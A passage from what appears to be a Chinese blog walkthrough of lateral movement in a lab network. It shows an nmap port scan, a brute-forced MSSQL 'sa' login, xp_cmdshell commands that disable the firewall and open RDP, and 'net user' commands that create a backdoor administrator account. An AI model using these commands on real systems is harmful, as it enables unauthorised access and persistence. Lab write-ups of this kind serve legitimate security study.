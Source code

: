 ![](https://upload-images.jianshu.io/upload_images/7216746-14444c8328c1c660.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)


然后在服务器主机中，用新添加的账号，远程桌面连接2号机，至此完成了对2号机的控制
![](https://upload-images.jianshu.io/upload_images/7216746-d9b4333b9e525239.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 2号机到6号机

使用nmap扫描发现192.168.141.116开了1433端口

```
nmap -p1433 --open 192.168.141.0/24
```

![](https://upload-images.jianshu.io/upload_images/7216746-c74ebec3543f5fb1.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

使用ms-sql-brute模块对6号机sa账户进行爆破，获得用户名为sa，密码为123456
```
nmap -p 1433 --script ms-sql-brute --script-args userdb=C:\Users\Waldo1111test\Desktop\name.txt,passdb=C:\Users\Waldo1111test\Desktop\password.txt 192.168.141.116
```
![](https://upload-images.jianshu.io/upload_images/7216746-db76ffd349bd787d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

使用sqltools获取6号机数据库
![](https://upload-images.jianshu.io/upload_images/7216746-f1b301d4d8da3f92.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

用xp_cmdshell关闭防火墙限制
```
netsh firewall set opmode mode=disable
```
![](https://upload-images.jianshu.io/upload_images/7216746-c69de91fa4c1c6ea.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

添加3389入站规则
```
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```
![](https://upload-images.jianshu.io/upload_images/7216746-9b625c32f5af2580.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

创建管理员用户Waldo6TEST
```
net user Waldo6TEST 1234567hhhh. /add
net localgroup administrators Waldo6TEST /add
```
![](https://upload-images.jianshu.io/upload_images/7216746-9c11df737ce6d622.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
![](https://upload-images.jianshu.io/upload_images/7216746-b84e1a5c7de2d07e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

使用用户名Wado6TEST 密码1234567hhhh.成功登陆六号机
![](https://upload-images.jianshu.io/upload_images/7216746-22a9c656fe6fcb0e.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

# 6号机到5号机
